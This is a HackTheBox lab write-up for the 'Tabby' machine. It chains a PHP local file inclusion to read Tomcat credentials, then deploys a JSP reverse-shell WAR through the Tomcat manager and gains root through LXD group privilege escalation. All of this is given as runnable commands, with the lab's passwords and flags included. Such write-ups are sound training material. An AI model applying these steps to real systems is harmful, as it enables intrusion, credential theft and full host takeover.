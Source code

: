 ```yaml
---
layout: post
title: HackTheBox - Tabby
date: 2021-03-04 20:00:59 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/linux/easy/tabby/Tabby.png
---
```


## Foothold

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Tabby-full-port-scan.txt 10.10.10.194
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp  open     http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
20688/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

### Apache/2.4.41 (port 80)

The main page of port 80 reveals a domain name `megahosting.htb` (that we can immediately add to our `/etc/hosts` file):

![](/assets/img/htb/machines/linux/easy/tabby/80.png)

Second thing we can notice is that **data breach** statement that redirects to <http://megahosting.htb/news.php?file=statement>.

![](/assets/img/htb/machines/linux/easy/tabby/data-breach-link.png)

![](/assets/img/htb/machines/linux/easy/tabby/data-breach.png)

Due to the `.php?file=statement`, I wanted to try for LFI and it works: 

<http://megahosting.htb/news.php?file=../../../../../../../../../../../>

![](/assets/img/htb/machines/linux/easy/tabby/LFI.png)

The presence of `lxd`, `tomcat`, and `mysql` in `/etc/passwd` may be useful later. Let's check port 8080. 

### Tomcat9 (port 8080)

**Tomcat 9** seems to be used. Plus, we can read that users are defined in `/etc/tomcat9/tomcat-users.xml`: 

![](/assets/img/htb/machines/linux/easy/tabby/tomcat9.png)

Via `gobuster` and `dirb`, we see that there some "hidden" folders like `/manager`. Accessing this page requires credentials: 

![](/assets/img/htb/machines/linux/easy/tabby/gobuster-8080.png)
![](/assets/img/htb/machines/linux/easy/tabby/auth.png)
![](/assets/img/htb/machines/linux/easy/tabby/8080-manager.png)

At this point, we can say that we want to take avantage of the LFI we found to retrieve `tomcat-users.xml`.

After trying several path and looking for tomcat's installation and configuration directories, I came across with this successful one <http://megahosting.htb/news.php?file=../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml> 

![](/assets/img/htb/machines/linux/easy/tabby/tomcat-install-dir.png)
![](/assets/img/htb/machines/linux/easy/tabby/askubuntu.png)
![](/assets/img/htb/machines/linux/easy/tabby/creds.png)

The user is `tomcat` and his password is `$3cureP4s5w0rd123!`.

Surprisingly, we got an "access denied" response on `manager` when we log in:

![](/assets/img/htb/machines/linux/easy/tabby/acces_denied.png)

### Exploiting Tomcat to gain a reverse shell

Reading at [hacktricks - pentesting web (tomcat)](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat), I understood that by deploying a malicious WAR file via tomcat, I can run malicious code.

> **WAR** files are just zip files.

I looked for **jsp**(JavaServer Pages) **reverse shell** and I used the first one: 

<https://gist.github.com/halozheng/bf0eaa60c5f166dbc848>

{% highlight bash %}
$ wget https://gist.githubusercontent.com/halozheng/bf0eaa60c5f166dbc848/raw/a8a53f3275c378897b24dd04e385465d0bee06b6/shell.jsp
# Edit shell.jsp with HTB IP and listener port
$ zip monshell.war shell.jsp
$ curl --upload-file monshell.war -u "tomcat:\$3cureP4s5w0rd123!" "http://10.10.10.194:8080/manager/text/deploy?path=/monshell"
OK - Deployed application at context path [/monshell]
# Run a listener
$ nc -lnvp 1234
...
{% endhighlight %}

Visiting <http://10.10.10.194:8080/monshell/shell.jsp> and we have a reverse shell as user `tomcat`:

![](/assets/img/htb/machines/linux/easy/tabby/reverse_shell.png)

___

## User: `ash`

Now if we remember the `/etc/passwd` file we saw earlier, or if we just take a look at `/etc/home`, we see there is a user called `ash`.

I wanted to list all files that belongs to him and I found an interesting zip file:

{% highlight bash %}
$ find / -user ash 2>/dev/null
/var/www/html/files
/var/www/html/files/16162020_backup.zip
{% endhighlight %}

To get it on my own machine I printed the base64 of the file's content then I pasted it in a new file:

{% highlight bash %}
# On victim's machine
$ base64 16162020_backup.zip
...
# On my machine
$ cat > file.b64
... 
$ base64 -d file.b64 > 16162020_backup.zip
$ file 16162020_backup.zip 
16162020_backup.zip: Zip archive data, at least v1.0 to extract
{% endhighlight %}

### Cracking zip with john

Do not forget `zip2john`:

{% highlight bash %}
$ zip2john 16162020_backup.zip > 16162020_backup.john
{% endhighlight %}

![](/assets/img/htb/machines/linux/easy/tabby/john.png)

And we retrieved the following password: `admin@it`.

{% highlight bash %}
tomcat@tabby:~$ su ash
Password: admin@it
ash@tabby:/opt/tomcat$ cd
ash@tabby:~$ cat user.txt 
662b777f8536a0dce33afdd15851778b
{% endhighlight %}

___

## Privesc via LXD Group (Road to oot)

Ash is part of `lxd` group:

![](/assets/img/htb/machines/linux/easy/tabby/lxd_group.png)

Following the steps of this [hacktricks article](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation), we can perform a privilege escalation:

1. On our machine:

{% highlight bash %}
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
cd
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
{% endhighlight %}

2. Transfer ` lxd.tar.xz` and `rootfs.squashfs` on victim's machine. Then run `lxd init` and these commands:

{% highlight bash %}
$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
$ lxc image list #You can see your new imported image
$ lxc init alpine privesc -c security.privileged=true
$ lxc list #List containers
$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
$ lxc start privesc
$ lxc exec privesc /bin/sh
~# cd /mnt/root #Here is where the filesystem is mounted
{% endhighlight %}

![](/assets/img/htb/machines/linux/easy/tabby/lxd_privesc.png)

Flag:

{% highlight bash %}
$ cat root.txt 
26571b9decff2a772d66c476d47d4875
{% endhighlight %}

___

## Useful links

- <https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory>
- <https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat>
- <https://gist.github.com/halozheng/bf0eaa60c5f166dbc848>
- <https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation>